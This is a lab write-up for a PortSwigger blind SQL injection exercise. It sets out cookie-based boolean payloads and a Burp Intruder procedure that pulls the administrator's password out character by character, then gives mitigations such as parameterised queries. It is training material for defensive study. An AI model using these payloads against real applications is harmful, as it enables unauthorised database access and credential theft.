 # Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Pets HTTP/2
```
### 2. Modify Tracking ID to test single boolean condition and infer result

**Injected Payload:**
```sql
' AND '1'='1
```

**The Traking ID becomes:**
```http
Cookie: TrackingId=<ID>'+AND+'1'='1;
```
This returned a "Welcome back" message.

**Injected Payload:**
```sql
' AND '1'='2
```
**The Traking ID becomes:**
```
Cookie: TrackingId=<ID>'+AND+'1'='2;
```
This did not return "Welcome back" message. This demostrates how a single boolean condition can be tested to infer the result.

### 3. Modify Tracking ID to verify Table Name

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returned a "Welcome back" message, confirming that there is a table called `users`.

Here `LIMIT 1` is used to ensure the subquery returns exactly one row.

`' AND (SELECT 'a' FROM users)='a` will select more than one row which might cause an error. SQL doesn't allow a **scalar subquery** (one used in a comparison like = 'a') to return multiple rows. 

### 4. Modify Tracking ID to verify username

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

This returned a "Welcome back" message, confirming there is a user called `administrator`

### 5. Identify length of password and Send to Intruder

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried several numbers to identify the password length, until I infered that the password length was 20.

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

Sent to Intruder

### 5. Retrieve the password of 'administrator' using Sniper Attack

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

`SUBSTRING(password, 1, 1)` means:

Syntax: `SUBSTRING(string_expression, start_position, length)`

- `SUBSTRING` is a SQL string function used to extract a portion of a string.
- `password` is the string to extract from, 
- start at position `1` (SQL uses 1-based indexing), 
- extract `1` character.

So this returns the first character of the password field.

Select `Add §` button from the intruder, after selecting `a`

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
```

From Payload tab, specify
Payload type: simple list
Payload configuration: a-z and 0-9 (assuming no capital letters)

In settings, Grep-match for the value `Welcome back`

Start attack  (Sniper attack)

This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.

![burpsuite response](./misc-images/09-1.png)

Repeated the process for second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character of the password.

Continued this process for all 20 characters, and retreived the final password.

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how password attack using `AND 1=1` works.

---

## Notes

